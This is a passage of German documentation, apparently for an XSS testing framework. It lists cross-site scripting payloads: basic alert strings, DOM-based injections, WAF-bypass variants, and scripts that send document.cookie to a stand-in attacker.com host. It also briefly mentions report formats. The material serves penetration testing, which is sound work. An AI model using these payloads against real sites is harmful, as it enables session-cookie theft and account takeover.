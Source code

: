 Einfache XSS-Payloads für grundlegende Tests.

Beispiel:

```javascript
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
```

### Erweiterte Payloads

Fortgeschrittene XSS-Payloads für komplexere Angriffe.

Beispiel:

```javascript
<script>fetch('https://attacker.com/exfil?data='+btoa(document.cookie))</script>
<script>var xhr=new XMLHttpRequest();xhr.open('POST','https://attacker.com/exfil',true);xhr.send(document.cookie)</script>
```

### DOM-basierte Payloads

Payloads für DOM-basierte XSS-Angriffe.

Beispiel:

```javascript
document.write('<script>alert(1)</script>')
document.body.innerHTML='<script>alert(1)</script>'
eval(location.hash.substr(1))
```

### WAF-Bypass-Payloads

Payloads zum Umgehen von Web Application Firewalls.

Beispiel:

```javascript
<script>setInterval`alert\x28document.domain\x29`</script>
<img src=x onerror=alert&#40;1&#41;>
<svg/onload=alert(1)>
```

## Berichterstellung

Das XSS Hunter Pro Framework unterstützt verschiedene Berichtsformate:

### HTML-Berichte

Interaktive HTML-Berichte mit Diagrammen und Filtern.

### JSON-Berichte

Maschinenlesbare JSON-Berichte für die Integration mit anderen Tools.
